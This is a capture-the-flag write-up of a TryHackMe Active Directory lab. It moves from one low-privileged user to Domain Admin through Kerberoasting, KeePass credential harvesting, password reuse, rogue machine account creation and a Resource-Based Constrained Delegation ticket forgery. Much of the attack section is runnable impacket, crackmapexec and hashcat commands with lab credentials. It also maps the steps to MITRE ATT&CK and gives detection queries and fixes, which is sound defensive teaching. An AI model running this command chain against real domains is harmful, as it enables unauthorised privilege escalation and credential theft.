# Forward — Active Directory Privilege Escalation via RBCD

> **Lab Platform:** TryHackMe · **Difficulty:** Hard  
> **Domain:** `CTF.LOCAL` · **Target:** DC01 (10.48.137.121)  
> **Outcome:** Full Domain Compromise — Administrator shell via Resource-Based Constrained Delegation

---

## Table of Contents

- [Overview](#overview)
- [Skills Demonstrated](#skills-demonstrated)
- [Lab Architecture](#lab-architecture)
- [Attack Path Summary](#attack-path-summary)
- [Phase Walkthrough](#phase-walkthrough)
  - [Phase 1 — Network Reconnaissance](#phase-1--network-reconnaissance)
  - [Phase 2 — LDAP & Domain Enumeration](#phase-2--ldap--domain-enumeration)
  - [Phase 3 — Kerberoasting](#phase-3--kerberoasting)
  - [Phase 4 — SMB Enumeration & RDP Access](#phase-4--smb-enumeration--rdp-access)
  - [Phase 5 — Credential Harvesting via KeePass](#phase-5--credential-harvesting-via-keepass)
  - [Phase 6 — Password Reuse & Lateral Movement](#phase-6--password-reuse--lateral-movement)
  - [Phase 7 — MachineAccountQuota Discovery](#phase-7--machineaccountquota-discovery)
  - [Phase 8 — RBCD Attack Chain](#phase-8--rbcd-attack-chain)
  - [Phase 9 — Kerberos S4U2Self & S4U2Proxy](#phase-9--kerberos-s4u2self--s4u2proxy)
  - [Phase 10 — Pass-the-Ticket & Domain Admin](#phase-10--pass-the-ticket--domain-admin)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Detection Opportunities](#detection-opportunities)
- [Lessons Learned](#lessons-learned)
- [References](#references)

---

## Overview

This lab documents a complete end-to-end Active Directory compromise starting from a single low-privileged domain credential and ending with full Domain Administrator access. The attack chain demonstrates how a chain of individually low-severity misconfigurations — password reuse, an open `MachineAccountQuota`, and misconfigured Kerberos delegation — can be combined to achieve domain dominance without exploiting a single CVE.

**Initial foothold:** `j.smith` — standard domain user, no special privileges  
**Final access:** `Administrator` — full Domain Admin via RBCD + Pass-the-Ticket

---

## Skills Demonstrated

| Category | Techniques |
|---|---|
| Reconnaissance | Nmap, CrackMapExec, LDAP queries |
| Active Directory | User/group enumeration, SPNs, delegation attributes |
| Credential Attacks | Kerberoasting, KeePass extraction, password reuse validation |
| Kerberos | TGT/TGS mechanics, S4U2Self, S4U2Proxy, Pass-the-Ticket |
| Privilege Escalation | MachineAccountQuota abuse, RBCD configuration |
| Post-Exploitation | SMB lateral movement, administrative share access |
| Detection Engineering | Windows Event IDs, Splunk SPL detection queries |

---

## Lab Architecture


```mermaid
graph TD
    A[Kali Linux<br/>Attacker] -->|Network Access| B[DC01<br/>Windows Server 2019<br/>Domain Controller]
    B --> C[Active Directory<br/>CTF.LOCAL]
    C --> D[j.smith<br/>Standard User]
    C --> E[t.jones<br/>Help Desk]
    C --> F[r.williams<br/>IT User]
    C --> G[svc.helpdesk<br/>Service Account / SPN]
    C --> H[Administrator<br/>Domain Admin]
    C --> I[HERMESMED$<br/>Rogue Machine Account<br/>Created by attacker]

    style A fill:#c0392b,color:#fff
    style B fill:#2c3e50,color:#fff
    style I fill:#e74c3c,color:#fff
    style H fill:#27ae60,color:#fff
```

**Exposed Services:**

| Port | Service | Notes |
|---|---|---|
| 53 | DNS | Domain resolution |
| 88 | Kerberos | Authentication protocol |
| 135 | RPC | Endpoint mapper |
| 139 | NetBIOS | Legacy name resolution |
| 389 | LDAP | Enumerable without auth |
| 445 | SMB | Signing status critical |
| 636 | LDAPS | Encrypted LDAP |
| 3389 | RDP | Initial GUI access |
| 5985 | WinRM | Post-exploitation |

---

## Attack Path Summary


```mermaid
flowchart TD
    A([Initial Credential\nj.smith]) --> B[Network Recon\nNmap · CrackMapExec]
    B --> C[LDAP Enumeration\nUsers · Groups · SPNs]
    C --> D[Kerberoasting\nsvc.helpdesk — hash not cracked]
    C --> E[SMB Enumeration\nShares · Files]
    E --> F[RDP Access\nj.smith interactive session]
    F --> G[KeePass Discovery\nDatabase.kdbx on filesystem]
    G --> H[Credential Extraction\nt.jones / Helpdesk01!]
    H --> I[Password Reuse Validation\nt.jones → r.williams]
    I --> J[AD Enumeration as r.williams\nms-DS-MachineAccountQuota = 10]
    J --> K[Create Rogue Machine Account\nHERMESMED$ via impacket-addcomputer]
    K --> L[Configure RBCD\nmsDS-AllowedToActOnBehalfOfOtherIdentity]
    L --> M[Kerberos S4U2Self\nRequest TGS for Administrator]
    M --> N[Kerberos S4U2Proxy\nDelegate ticket to cifs/DC01]
    N --> O[Pass-the-Ticket\nexport KRB5CCNAME]
    O --> P([Domain Administrator\nC$ · flag.txt])

    style A fill:#3498db,color:#fff
    style P fill:#27ae60,color:#fff
    style D fill:#e67e22,color:#fff
```

---

## Phase Walkthrough

---

### Phase 1 — Network Reconnaissance

**Objective:** Map all exposed services before attempting authentication. Every unnecessary authentication attempt risks alerting defenders.

```bash
# Initial SYN scan (all ports)
nmap -p- --min-rate 5000 -T4 10.48.137.121 -oN nmap-allports.txt

# Service & version detection on discovered ports
nmap -sC -sV -p 53,88,135,139,389,445,636,3268,3269,3389 10.48.137.121 -oN nmap-services.txt
```



```bash
# Detailed service version scan
nmap -sV 10.48.137.121
```



**Results:** Domain Controller identified with DNS (53), Kerberos (88), LDAP (389/636), SMB (445), RDP (3389) and more.

**Why this matters:** SMB signing status determines whether NTLM relay attacks are feasible. An open LDAP port with anonymous bind exposes domain structure without credentials.

---

### Phase 2 — LDAP & Domain Enumeration

**Objective:** Extract all domain users, groups, and service principal names before touching any authenticated service.

```bash
# Check LDAP naming contexts (anonymous bind)
ldapsearch -x -H ldap://10.48.137.121 -s base namingcontexts
```



```bash
# Enumerate domain users
impacket-GetADUsers ctf.local/j.smith:'JSmith@IT2024' -dc-ip 10.48.137.121 -all
```



```bash
# Enumerate SPNs (Kerberoastable accounts)
impacket-GetUserSPNs ctf.local/j.smith:'JSmith@IT2024' -dc-ip 10.48.137.121
```

```bash
# Check sysadmin group membership
ldapsearch -x -H ldap://10.48.137.121 -D "CTF\j.smith" -w 'JSmith@IT2024' \
  -b "DC=ctf,DC=local" "(cn=sysadmin)"
```



```bash
# Enumerate r.williams details
ldapsearch -x -H ldap://10.48.137.121 -D "CTF\j.smith" -w 'JSmith@IT2024' \
  -b "DC=ctf,DC=local" "(sAMAccountName=r.williams)"
```



**Users discovered:**

| Username | Role | Notable |
|---|---|---|
| Administrator | Domain Admin | Primary target |
| Guest | Disabled | — |
| krbtgt | KDC Account | — |
| j.smith | Standard User | Initial foothold |
| t.jones | Help Desk | Credential target |
| r.williams | Help Desk Senior | sysadmin + RDP access |
| svc.helpdesk | Service Account | SPN registered — Kerberoastable |

**Key finding:** r.williams is a member of the **sysadmin** group and **Remote Desktop Users** — a high-value target for lateral movement.

---

### Phase 3 — Kerberoasting

**Objective:** Request a Kerberos service ticket for `svc.helpdesk` and attempt offline password cracking.

**How Kerberoasting works:**


```mermaid
sequenceDiagram
    participant Attacker
    participant KDC as Key Distribution Centre (DC01)

    Attacker->>KDC: AS-REQ (TGT request for j.smith)
    KDC-->>Attacker: AS-REP (TGT encrypted with j.smith's key)
    Attacker->>KDC: TGS-REQ (request service ticket for svc.helpdesk SPN)
    KDC-->>Attacker: TGS-REP (ticket encrypted with svc.helpdesk's NTLM hash)
    Attacker->>Attacker: Extract hash → offline crack with hashcat
```

```bash
# Extract Kerberos service ticket hashes
impacket-GetUserSPNs ctf.local/j.smith:'JSmith@IT2024' \
  -dc-ip 10.48.137.121 -request -outputfile kerberoast-hashes.txt
```



```bash
# Attempt crack with RockYou wordlist
hashcat -m 13100 kerberoast-hashes.txt /usr/share/wordlists/rockyou.txt --force
```



**Result:** `svc.helpdesk` hash was **not cracked** with RockYou. The pivot was rational — service account passwords are typically long/auto-generated (often 40+ characters in production), making offline cracking unlikely to succeed. Continuing to invest compute on an uncrackable hash would waste time; the smarter move was to shift focus to credential harvesting via existing access paths.

---

### Phase 4 — SMB Enumeration & RDP Access

**Objective:** Identify readable shares for credential artifacts. Gain an interactive session.

```bash
# Check SMB signing status
crackmapexec smb 10.48.137.121

# List accessible shares
crackmapexec smb 10.48.137.121 -u j.smith -p 'JSmith@IT2024' --shares
```



```bash
# Detailed share enumeration with permissions
smbmap -H 10.48.137.121 -u j.smith -p 'JSmith@IT2024' -R
```



```bash
# RDP access — interactive session as j.smith
xfreerdp /v:10.48.137.121 /u:j.smith /p:'JSmith@IT2024' /cert:ignore /dynamic-resolution
```



**Shares discovered:** `SYSVOL`, `NETLOGON`, `Downloads`, `IPC$`, `ADMIN$`, `C$`

---

### Phase 5 — Credential Harvesting via KeePass

**Objective:** Search the interactive session for locally stored credentials.

**What is KeePass?**  
KeePass is an offline password manager. Databases (`.kdbx`) are encrypted with a master password. If a weak master password is used, credentials can be extracted.

```powershell
# Search filesystem for KeePass databases
Get-ChildItem -Path C:\ -Recurse -Include *.kdbx -ErrorAction SilentlyContinue
```

**Found:** `C:\Users\j.smith\Documents\Database.kdbx`



**Extracted credentials via KeePass:**



```
Entry:    Help Desk Portal
Username: t.jones
Password: Helpdesk01!
```

---

### Phase 6 — Password Reuse & Lateral Movement

**Objective:** Validate extracted credentials and check for password reuse across other accounts.

```bash
# Validate t.jones credentials + check password reuse for r.williams
crackmapexec smb 10.48.137.121 -u t.jones -p 'Helpdesk01!'
crackmapexec smb 10.48.137.121 -u r.williams -p 'Helpdesk01!'
```



```bash
# Authenticated session as r.williams
crackmapexec smb 10.48.137.121 -u r.williams -p 'Helpdesk01!'
xfreerdp /v:10.48.137.121 /u:r.williams /p:'Helpdesk01!' /cert:ignore
```



**Result:** `Helpdesk01!` valid for both `t.jones` and `r.williams`.

```
j.smith     → [initial foothold]
t.jones     → [extracted from KeePass]
r.williams  → [password reuse — same credential]
```

---

### Phase 7 — MachineAccountQuota Discovery

**Objective:** Determine whether authenticated users can create computer objects — a prerequisite for RBCD abuse.

**What is `ms-DS-MachineAccountQuota`?**  
By default, this domain attribute is set to **10**, meaning any authenticated domain user can join up to 10 computers to the domain. In a hardened environment this should be **0**.

```bash
# Check MachineAccountQuota via LDAP
ldapsearch -x -H ldap://10.48.137.121 -D "CTF\r.williams" -w 'Helpdesk01!' \
  -b "DC=ctf,DC=local" "(objectClass=domainDNS)" ms-DS-MachineAccountQuota
```



```bash
# Privilege analysis from r.williams' RDP session
whoami /priv
```



**Findings:**
- `ms-DS-MachineAccountQuota: 10` — enables rogue machine account creation
- `SeMachineAccountPrivilege` present — though labelled "Disabled", the quota allows the attack

---

### Phase 8 — RBCD Attack Chain

**Objective:** Abuse `MachineAccountQuota` to create a controlled computer account, then configure Resource-Based Constrained Delegation to impersonate Administrator.

#### What is Resource-Based Constrained Delegation?

Traditional delegation asks: *"Which services can Account A delegate to?"*  
RBCD inverts this: *"Which accounts is Service B willing to accept delegation from?"*

The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a computer object defines which accounts are trusted to act on its behalf. If an attacker can **write** this attribute, they can forge service tickets as any user — including `Administrator`.


```mermaid
flowchart LR
    A[r.williams\nDomain User] -->|MachineAccountQuota = 10| B[Create HERMESMED$\nimpacket-addcomputer]
    B -->|Write msDS-AllowedToActOnBehalfOfOtherIdentity| C[DC01$\nTarget Machine]
    C -->|Now trusts| B
    B -->|S4U2Self + S4U2Proxy| D[Administrator\nService Ticket for cifs/DC01]
    D --> E([Domain Admin Access])

    style A fill:#3498db,color:#fff
    style B fill:#e74c3c,color:#fff
    style E fill:#27ae60,color:#fff
```

```bash
# Step 1: Create rogue machine account
impacket-addcomputer -dc-ip 10.48.137.121 \
  -computer-name HERMESMED$ \
  -computer-pass 'HermesRBCD!2026' \
  ctf.local/r.williams:'Helpdesk01!'
```



```bash
# Step 2: Configure RBCD — set msDS-AllowedToActOnBehalfOfOtherIdentity
impacket-rbcd \
  -dc-ip 10.48.137.121 \
  -action write \
  -delegate-to DC01$ \
  -delegate-from HERMESMED$ \
  ctf.local/r.williams:'Helpdesk01!'
```



---

### Phase 9 — Kerberos S4U2Self & S4U2Proxy

**Objective:** Use the rogue machine account to obtain a forged Kerberos service ticket for `Administrator` on `DC01`.

#### How S4U2Self and S4U2Proxy work


```mermaid
sequenceDiagram
    participant Attacker as HERMESMED$\n(Attacker-controlled)
    participant KDC as KDC (DC01)
    participant Target as DC01$\n(Target)

    Attacker->>KDC: S4U2Self — "Give me a TGS for Administrator\nto use our own service"
    KDC-->>Attacker: TGS (for Administrator → HERMESMED$)

    Note over Attacker,KDC: This works because RBCD is configured

    Attacker->>KDC: S4U2Proxy — "Use this TGS to get a ticket\nfor cifs/DC01 on behalf of Administrator"
    KDC-->>Attacker: Service ticket for cifs/DC01 as Administrator

    Attacker->>Target: Use ticket to access C$
```

```bash
# Generate the Administrator service ticket using S4U
impacket-getST \
  -dc-ip 10.48.137.121 \
  -spn cifs/DC01.ctf.local \
  -impersonate Administrator \
  ctf.local/HERMESMED$:'HermesRBCD!2026'

# Verify the ticket was generated
ls -la Administrator.ccache
```



---

### Phase 10 — Pass-the-Ticket & Domain Admin

**Objective:** Load the forged Kerberos credential cache and authenticate to DC01 as Administrator.

```bash
# Load the ccache into the environment
export KRB5CCNAME=./Administrator.ccache

# Verify the ticket is loaded
klist
```


```bash
# Access Administrator's shares using Kerberos authentication
impacket-smbclient -k -no-pass Administrator@dc01.ctf.local
```



```bash
# Inside smbclient — navigate to the Desktop and retrieve the flag
use C$
cd Users\Administrator\Desktop
get flag.txt
exit

# Display the flag
cat flag.txt
```



```
THM{RBCD_S4U2Pr0xy_Tick3t_Th3ft_2_DA}
```

---

## MITRE ATT&CK Mapping

| Technique | ID | Phase |
|---|---|---|
| Network Service Discovery | T1046 | Recon |
| Account Discovery: Domain Account | T1087.002 | Enumeration |
| OS Credential Dumping: Kerberoasting | T1558.003 | Credential Access |
| Credentials from Password Stores | T1555 | Credential Access |
| Valid Accounts: Domain Accounts | T1078.002 | Lateral Movement |
| Remote Services: SMB/Windows Admin Shares | T1021.002 | Lateral Movement |
| Remote Services: Remote Desktop Protocol | T1021.001 | Lateral Movement |
| Steal or Forge Kerberos Tickets: Kerberoasting | T1558.003 | Privilege Escalation |
| Steal or Forge Kerberos Tickets: Pass the Ticket | T1550.003 | Lateral Movement |
| Domain Policy Modification | T1484 | Privilege Escalation |
| Create Account: Machine Account | T1136.001 | Persistence |

---

## Detection Opportunities

### Critical Windows Event IDs

| Event ID | Description | Triggered At |
|---|---|---|
| `4624` | Successful logon | Every lateral movement step |
| `4662` | Operation performed on AD object | LDAP enumeration, RBCD write |
| `4741` | New computer account created | `impacket-addcomputer` |
| `4742` | Computer account modified | RBCD attribute change |
| `4768` | Kerberos TGT requested | S4U2Self |
| `4769` | Kerberos service ticket requested | S4U2Proxy |
| `5136` | Directory object modified | `msDS-AllowedToActOnBehalfOfOtherIdentity` write |

### Splunk Detection Queries

```spl
# New computer account creation — possible MachineAccountQuota abuse
index=wineventlog EventCode=4741
| table _time, SubjectUserName, NewAccountName, ComputerName
| where match(NewAccountName, "\$")
```

```spl
# Delegation attribute modification — RBCD configured
index=wineventlog EventCode=5136 AttributeLDAPDisplayName="msDS-AllowedToActOnBehalfOfOtherIdentity"
| table _time, SubjectUserName, ObjectDN, AttributeValue
```

```spl
# Kerberos service ticket requests — potential S4U2Proxy
index=wineventlog EventCode=4769 TicketOptions="0x40810010"
| table _time, AccountName, ServiceName, ClientAddress
| where ServiceName != "krbtgt"
```

```spl
# Network logon after Kerberos ticket use — Pass-the-Ticket pattern
index=wineventlog EventCode=4624 LogonType=3 AuthenticationPackageName=Kerberos
| table _time, AccountName, WorkstationName, IpAddress
| where AccountName="Administrator"
```

Full detection queries in [`detection/splunk-searches.md`](detection/splunk-searches.md).

---

## Lessons Learned

### What the attacker relied on

| Misconfiguration | Impact | Fix |
|---|---|---|
| Password reuse across help desk accounts | One extracted credential compromised two accounts | Enforce unique passwords; use PAM tooling |
| `ms-DS-MachineAccountQuota = 10` | Any domain user could create computer objects | Set to `0` via GPO or AD attribute |
| KeePass database accessible without ACLs | Credential database discoverable without admin rights | Restrict with ACLs; use enterprise vaults |
| No BloodHound-style ACL monitoring | RBCD attribute write went undetected | Deploy Purple Knight / Semperis |
| No alerting on Event ID 4741 | Rogue computer account creation unnoticed | SIEM rule on new computer account creation by non-admin users |

### What I would do differently in a real engagement

1. **Run BloodHound before exploitation** — would have immediately visualised the RBCD path from `r.williams` to `DC01$`
2. **Validate each delegation step** — using `ldapsearch`/`dsacls` after writing RBCD, and `klist` after generating the `.ccache`
3. **Document privilege transitions as they happen** — capturing the exact `ldapsearch` output showing the delegation attribute change
4. **Include cleanup steps** — removing `HERMESMED$` and restoring original delegation attributes after flag retrieval

---

## References

- [Impacket — SecureAuthCorp](https://github.com/fortra/impacket)
- [RBCD Explained — Elad Shamir](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [S4U2Proxy Abuse — harmj0y](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [MITRE ATT&CK — Active Directory](https://attack.mitre.org/tactics/TA0006/)
- [TryHackMe — Forward Room](https://tryhackme.com)
- [BloodHound — BloodHoundAD](https://github.com/BloodHoundAD/BloodHound)

---


